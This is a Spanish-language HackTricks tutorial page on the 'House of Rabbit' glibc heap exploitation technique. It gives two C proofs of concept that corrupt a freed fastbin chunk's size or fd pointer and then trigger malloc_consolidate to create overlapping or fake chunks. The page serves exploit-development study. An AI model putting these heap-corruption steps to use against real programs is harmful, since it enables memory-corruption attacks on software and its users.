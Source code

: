 # Casa del Conejo

<details>

<summary><strong>Aprende hacking en AWS de cero a héroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Experto en Equipos Rojos de AWS de HackTricks)</strong></a><strong>!</strong></summary>

Otras formas de apoyar a HackTricks:

* Si deseas ver tu **empresa anunciada en HackTricks** o **descargar HackTricks en PDF** Consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Obtén la [**merchandising oficial de PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubre [**La Familia PEASS**](https://opensea.io/collection/the-peass-family), nuestra colección exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte tus trucos de hacking enviando PRs a los** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositorios de github.

</details>

### Requisitos

1. **Capacidad para modificar el puntero fd o el tamaño del fastbin**: Esto significa que puedes cambiar el puntero forward de un fragmento en el fastbin o su tamaño.
2. **Capacidad para desencadenar `malloc_consolidate`**: Esto se puede hacer ya sea asignando un fragmento grande o fusionando el fragmento superior, lo que obliga al montón a consolidar fragmentos.

### Objetivos

1. **Crear fragmentos superpuestos**: Para que un fragmento se solape con otro, permitiendo manipulaciones adicionales del montón.
2. **Forjar fragmentos falsos**: Para engañar al asignador para que trate un fragmento falso como un fragmento legítimo durante las operaciones del montón.

## Pasos del ataque

### POC 1: Modificar el tamaño de un fragmento fastbin

**Objetivo**: Crear un fragmento superpuesto manipulando el tamaño de un fragmento fastbin.

* **Paso 1: Asignar fragmentos**
```cpp
unsigned long* chunk1 = malloc(0x40);  // Allocates a chunk of 0x40 bytes at 0x602000
unsigned long* chunk2 = malloc(0x40);  // Allocates another chunk of 0x40 bytes at 0x602050
malloc(0x10);                          // Allocates a small chunk to change the fastbin state
```
* **Paso 2: Liberar Chunks**
```cpp
free(chunk1);  // Frees the chunk at 0x602000
free(chunk2);  // Frees the chunk at 0x602050
```
* **Paso 3: Modificar el Tamaño del Chunk**
```cpp
chunk1[-1] = 0xa1;  // Modify the size of chunk1 to 0xa1 (stored just before the chunk at chunk1[-1])
```
* **Paso 4: Desencadenar `malloc_consolidate`**
```cpp
malloc(0x1000);  // Allocate a large chunk to trigger heap consolidation
```
Asignar un gran fragmento desencadena la función `malloc_consolidate`, fusionando fragmentos pequeños en el contenedor rápido. El tamaño manipulado de `chunk1` hace que se solape con `chunk2`.

Después de la consolidación, `chunk1` se solapa con `chunk2`, lo que permite una mayor explotación.

### POC 2: Modificar el puntero `fd`

**Objetivo**: Crear un fragmento falso manipulando el puntero `fd` del contenedor rápido.

* **Paso 1: Asignar Fragmentos**
```cpp
unsigned long* chunk1 = malloc(0x40);  // Allocates a chunk of 0x40 bytes at 0x602000
unsigned long* chunk2 = malloc(0x100); // Allocates a chunk of 0x100 bytes at 0x602050
```
**Explicación**: Asignamos dos fragmentos, uno más pequeño y otro más grande, para configurar el montón para el fragmento falso.

* **Paso 2: Crear fragmento falso**
```cpp
chunk2[1] = 0x31;  // Fake chunk size 0x30
chunk2[7] = 0x21;  // Next fake chunk
chunk2[11] = 0x21; // Next-next fake chunk
```
* **Paso 3: Liberar `chunk1`**
```cpp
free(chunk1);  // Frees the chunk at 0x602000
```
**Explicación**: Liberamos `chunk1`, añadiéndolo a la lista fastbin.

* **Paso 4: Modificar `fd` de `chunk1`**
```cpp
chunk1[0] = 0x602060;  // Modify the fd of chunk1 to point to the fake chunk within chunk2
```
**Explicación**: Cambiamos el puntero hacia adelante (`fd`) de `chunk1` para que apunte a nuestro chunk falso dentro de `chunk2`.

* **Paso 5: Desencadenar `malloc_consolidate`**
```cpp
malloc(5000);  // Allocate a large chunk to trigger heap consolidation
```
Asignar un gran fragmento nuevamente desencadena `malloc_consolidate`, que procesa el fragmento falso.

El fragmento falso se convierte en parte de la lista fastbin, convirtiéndolo en un fragmento legítimo para futuras explotaciones.

### Resumen

La técnica de la **Casa del Conejo** implica modificar el tamaño de un fragmento de fast bin para crear fragmentos superpuestos o manipular el puntero `fd` para crear fragmentos falsos. Esto permite a los atacantes forjar fragmentos legítimos en el montón, lo que habilita diversas formas de explotación. Comprender y practicar estos pasos mejorará tus habilidades de explotación de montón.
